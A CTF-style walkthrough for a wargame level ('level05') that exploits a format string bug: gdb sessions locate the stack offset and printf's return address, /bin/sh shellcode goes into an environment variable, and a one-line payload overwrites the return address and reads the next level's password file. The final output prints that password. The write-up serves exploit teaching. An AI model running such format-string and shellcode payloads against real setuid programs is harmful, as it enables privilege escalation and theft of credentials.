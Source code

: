 # Walkthrough

## Solution

```
(python -c "print '\xdc\xd4\xff\xff\xdd\xd4\xff\xff\xde\xd4\xff\xff\xdf\xd4\xff\xff%203x%10\$n%252x%11\$n%40x%12\$n%13\$n'"; echo 'cat /home/users/$(whoami)/.pass') | ./level05
```

## Explanation

By looking at the code, we realize that it is vulnerable for a format string exploitation. So the first thing we want to look for, is the offset of the string argument in the stack. We start by running the program with a test string.

`run < <(python -c "print 'AAAA %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x'")`

We discover that the string starts in the 10th position. This is where we are going to put the address where we are going to store a command.  
```
(gdb) run < <(python -c "print 'AAAA %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x'")
Starting program: /home/users/level05/level05 < <(python -c "print 'AAAA %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x'")
aaaa 00000064 f7fcfac0 f7ec3af9 ffffd6bf ffffd6be 00000000 ffffffff ffffd744 00000000 61616161
[Inferior 1 (process 1861) exited normally]
```

We now need to discover the return address of printf.  
We put a breakpoint at the beginning of printf, step into printf with `si`, and we look at the stack with `x/24wx $esp`.  
We discover where is the address of the next command, i.e. the return address, "0x0804850c". In this example, it is 0xffffd5dc.  
```
(gdb) b *0x08048507
Breakpoint 1 at 0x8048507
(gdb) run
Starting program: /home/users/level05/level05 < <(python -c "print 'AAAA %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x'")

Breakpoint 1, 0x08048507 in main ()
(gdb) display/i $pc
1: x/i $pc
=> 0x8048507 <main+195>:	call   0x8048340 <printf@plt>
(gdb) si
0x08048340 in printf@plt ()
1: x/i $pc
=> 0x8048340 <printf@plt>:	jmp    *0x80497d4
(gdb) x/24wx $esp
0xffffd5dc:	0x0804850c	0xffffd608	0x00000064	0xf7fcfac0
0xffffd5ec:	0xf7ec3af9	0xffffd62f	0xffffd62e	0x00000000
0xffffd5fc:	0xffffffff	0xffffd6b4	0x00000000	0xffffd66c
0xffffd60c:	0xffffd66d	0xffffd66e	0xffffd66f	0x78333925
0xffffd61c:	0x24303125	0x3031256e	0x31257837	0x256e2431
0xffffd62c:	0x25783933	0x6e243231	0x24333125	0x00000a6e
```

To make things simple, we can simply store a shellcode in the environment, so all we have to do is to store the address of the environment variable in the return address. Let's start by setting the variable:

```
export SHELLCODE=`python -c "print('\x90' * 100 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')"`
```

The address might get displaced, so we have 100 no-ops to compensate. We find it by using `x/10s *environ`.  
In this case, shellcode env address is 0xffffd84d (which is the address of S, from SHELLCODE=). Let's add 32 to jump the name and land in the NOP, we have now 0xffffd86d.  
We shall put this address in the return address of printf, which is 0xffffd5dc.  
We separate the return address of printf into 4, to avoid printing a very high number of characters:

\xdc\xd5\xff\xff
\xdd\xd5\xff\xff
\xde\xd5\xff\xff
\xdf\xd5\xff\xff

We are going to do some arithmetic to print the correct number of characters for the NOP address (0xffffd86d).

```
print 0x6d - 0x10	// we deduct 16 bytes corresponding to the 4 addresses we printed before
$1 = 93

(gdb) print 0xd8 - 0x6d
$2 = 107

(gdb) print 0xff - 0xd8
$3 = 39
```

This gives us:

%93x%10\$n
%107x%11\$n
%39x%12\$n
%13\$n

```
(gdb) run < <(python -c "print '\xdc\xd5\xff\xff\xdd\xd5\xff\xff\xde\xd5\xff\xff\xdf\xd5\xff\xff%93x%10\$n%107x%11\$n%39x%12\$n%13\$n'")
```

Voilà!

```
(python -c "print '\xdc\xd5\xff\xff\xdd\xd5\xff\xff\xde\xd5\xff\xff\xdf\xd5\xff\xff%93x%10\$n%107x%11\$n%39x%12\$n%13\$n'"; echo 'cat /home/users/$(whoami)/.pass') | ./level05
����������������                                                                                           64                                                                                                   f7fcfac0                               f7ec3af9
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq

```
